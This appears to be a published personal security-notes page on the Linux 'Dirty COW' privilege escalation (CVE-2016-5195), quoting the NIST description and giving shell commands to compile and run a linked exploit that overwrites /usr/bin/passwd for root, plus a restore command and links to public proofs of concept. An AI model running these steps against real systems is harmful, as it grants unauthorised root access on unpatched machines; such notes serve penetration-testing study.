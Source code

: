 ```yaml
---
{"dg-publish":true,"permalink":"/cve-2016-5195/","hide":true}
---
```



> [!cite] NIST CVE-2016-5195
> Race condition in mm/gup.c in the **Linux kernel 2.x through 4.x before 4.8.3** allows local users to gain privileges by leveraging incorrect handling of a copy-on-write (COW) feature to write to a read-only memory mapping, as exploited in the wild in October 2016, aka "Dirty COW."
# Exploitation

Compile [[c0w.c\|c0w.c]]
```shell
gcc -pthread c0w.c -o c0w && \
./c0w && \
/usr/bin/passwd
```

Restore
```shell
mv /tmp/bak /usr/bin/passwd
```

Somes uses
https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs

	Gives the user root by replacing /etc/passwd
		https://github.com/gbonacini/CVE-2016-5195